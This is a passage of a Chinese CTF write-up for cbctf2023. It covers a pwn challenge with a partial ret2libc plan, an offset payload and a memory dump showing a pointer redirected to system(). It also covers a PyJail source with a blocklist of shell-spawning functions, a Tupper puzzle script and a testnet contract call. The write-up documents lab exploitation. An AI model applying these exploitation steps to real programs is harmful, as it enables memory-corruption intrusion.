  int v2; // [rsp+18h] [rbp-8h] BYREF
  int v3; // [rsp+1Ch] [rbp-4h] BYREF

  __isoc99_scanf("%d%d%lld", &v3, &v2, &v1);
  if ( (unsigned int)v3 <= 0x20 )
  {
    if ( v2 == 1 )
    {
      a1[v3] += v1;
    }
    else if ( v2 == 2 && (unsigned __int64)v1 <= 0x20 )
    {
      a1[v3] += a1[v1];
    }
  }
}
```

那么思路应该是比较显然的：

1. 通过 set 函数，使用栈上残留数据获取 libc 中某个地址低于 `system` 的符号真实地址。
2. 通过 add 函数，将上述地址做加法到 `system` 的位置。
3. 构造参数。暂时没想到怎么做
4. ret2libc。但是暂时没想到怎么绕过 BPF。


`_IO_file_setbuf` 这个函数看起来不错。试一下。`_IO_file_setbuf + 0xD` 的地址在 `a1[25]`。需要使用 add 函数减去 `0x3983Dll==235581ll`~~，也就是加上 uint64_t 的~~~~0xFFFFFFFFFFFC67C3ull == 18446744073709316035ull~~ 不必要。因为输入的时候是个 `%lld`。

payload：

```
2
25 1 -235581
```

这种做法是有效的。

```
00007FFDCD7FD710  00007F90E1973600  libc.so.6:_IO_file_jumps
00007FFDCD7FD718  00007F90E17ADD70  libc.so.6:__libc_system  ; Modified value
00007FFDCD7FD720  00007F90E19776A0  libc.so.6:_IO_2_1_stderr_
00007FFDCD7FD728  00007F90E17DE57F  libc.so.6:_IO_setbuffer+BF
00007FFDCD7FD730  0000014201000015  
00007FFDCD7FD738  0000000000000000  
00007FFDCD7FD740  00007FFDCD7FD770  [stack]:00007FFDCD7FD770
00007FFDCD7FD748  00007FFDCD7FD888  [stack]:00007FFDCD7FD888  ; <- a1[31]; 
00007FFDCD7FD750  00007FFDCD7FD770  [stack]:00007FFDCD7FD770  ; <- RBP
00007FFDCD7FD758  000055A30620E505  main+6C  ; ret addr
```

第二步，覆写返回地址。~~只需要使用 set 函数向 `a1[32]` 写入 `a1[25]` 的值便可~~。日，数错了，不太行，差了一个 dword

### PyJail

#### Level 7 | STUCK

```python
black = {'pty.spawn', 'os.system', 'os.exec', 'os.posix_spawn', 'os.spawn', 'subprocess.Popen'}

...

def guess():
    game_score = 0
    sys.stdout.write('Can u guess the number? between 1 and 1000 > ')
    sys.stdout.flush()
    my_lucky_num = [random.randint(1, 1000) for _ in range(5)]
    sys.stdout, sys.stderr, challenge_original_stdout = StringIO(), StringIO(), sys.stdout
    input_data = input()
    try:
        input_data = eval_func(input_data, {}, {})
    except Exception:
        return game_score, my_lucky_num
    sys.stdout = challenge_original_stdout
    print(input_data)
    if input_data == my_lucky_num:
        game_score += 1
    return game_score, my_lucky_num
```

### Misc

#### Tupper | STUCK

> Another signin

很多小 zip 拼起来

```python
import os

txts = os.listdir("tupper/challenge/txts")
strs = [""] * len(txts)

for file in txts:
    with open(os.path.join("tupper/challenge/txts", file), "r") as f:
        strs[int(file.split(".")[0])] = f.read()

print(",".join(strs))

digits = [0] * 10
for ch in strs:
    digits[int(ch)] += 1
print(digits)
```

```
(pwnenv) PS D:\Workspace\rev\cbctf2023> & d:/Workspace/pwnenv/Scripts/python.exe d:/Workspace/rev/cbctf2023/tupper/sol.py   
2,4,3,0,3,0,0,2,7,9,9,7,1,7,3,2,5,8,6,3,0,6,7,3,2,0,4,8,0,4,2,0,9,2,8,6,3,1,9,9,6,5,3,1,7,1,9,2,7,7,9,4,4,6,7,6,9,3,4,5,9,3,0,0,9,7,2,7,8,6,3,7,8,5,4,7,2,8,0,9,5,5,5,6,2,8,0,9,6,8,7,5,0,0,1,5,2,6,3,4,6,9,2,7,7,9,8,2,3,5,6,5,7,6,3,9,1,5,5,4,7,0,5,4,4,0,1,0,1,6,3,2,8,7,5,4,1,0,1,4,3,2,0,1,4,1,4,0,5,8,2,8,3,1,5,9,4,2,9,6,8,1,2,9,9,6,7,9,0,1,1,0,3,5,5,7,5,0,7,5,2,8,3,9,7,0,0,0,5,7,6,1,0,3,3,3,6,4,3,2,6,8,9,9,6,9,8,1,2,3,7,9,5,4,0,3,1,7,1,9,2,2,9,2,6,5,4,6,8,5,7,4,6,7,8,1,2,3,7,5,1,4,4,9,1,2,0,7,2,2,5,4,2,2,0,8,7,7,4,7,0,9,5,3,1,3,4,7,7,6,3,0,2,9,8,8,7,1,1,6,2,3,8,9,4,1,1,0,9,0,8,1,3,0,9,9,6,9,8,0,0,3,7,4,4,3,4,2,8,9,4,7,9,1,8,8,9,2,5,8,2,5,5,3,5,2,3,1,5,5,9,3,0,3,8,5,4,7,5,2,6,8,6,1,3,2,6,0,5,9,1,9,0,4,1,4,0,0,2,6,6,0,1,2,8,4,2,6,0,3,6,3,7,6,4,0,2,9,3,2,3,3,9,4,5,8,1,7,6,3,3,4,0,5,0,1,4,5,7,8,1,3,8,6,2,2,2,2,1,8,9,0,8,4,9,5,9,2,2,5,4,6,6,1,9,1,7,3,6,6,6,7,1,6,1,1,3,7,1,3,8,9,3,3,9,5,0,3,2,8,2,9,6,1,8,6,9,1,4,3,2,1,7,8,0,7,9,1,4,6,3,1,7,9,6,8,2,8,7,1,9,2,4,5,5,8,7,2,9,0,0,9,4,5,6,2,0,4,4,4,1,2,8,5,7,3,4,9,3,1,5,3,6,1,2,4,0,1,3,6,1,8,3,9,3,9,4,7,8,5,7,4,0,5,6,5,6,8,1,2,8,5,4,2
[54, 57, 60, 59, 52, 52, 51, 52, 48, 59]
(pwnenv) PS D:\Workspace\rev\cbctf2023>
```

分布均匀，不知道有什么规律

### Blockchain

#### v 0.05eth to me🥵 | STUCK

> Try to call `getFlag()` at 0x53d4703098E0117ABE7f9A65fE1E52E68d73d0fd via Sepolia testnet. Things might help:
>
> - Sepolia PoW Faucet: [https://sepolia-faucet.pk910.de/#/](https://sepolia-faucet.pk910.de/#/)
> - Sepolia json-rpc: [https://1rpc.io/sepolia](https://1rpc.io/sepolia)

直接 RPC 会被拒

```
PS D:\Workspace\rev\cbctf2023\rev_pwn> curl -X POST -H "Content-Type: application/json" --data '{
>>   "jsonrpc":"2.0",
>>   "method":"eth_call",
>>   "params":[{
>>     "to": "0x53d4703098E0117ABE7f9A65fE1E52E68d73d0fd",
>>     "data": "0xf9633930"
>>   }, "latest"],
>>   "id":1
>> }' "https://1rpc.io/[REDACTED]/sepolia"
{"jsonrpc":"2.0","error":{"code":3,"message":"execution reverted: According to our agreement, you need to pay 0.05 eth in exchange for FLAG","data":"0x08c379a0000000000000000000000000000000000000000000000000000000000000002000000000000000000000000000000000000000000000000000000000000000494163636f7264696e6720746f206f75722061677265656d656e742c20796f75206e65656420746f2070617920302e30352065746820696e2065786368616e676520666f7220464c41470000000000000000000000000000000000000000000000"},"id":1}
PS D:\Workspace\rev\cbctf2023\rev_pwn>
```
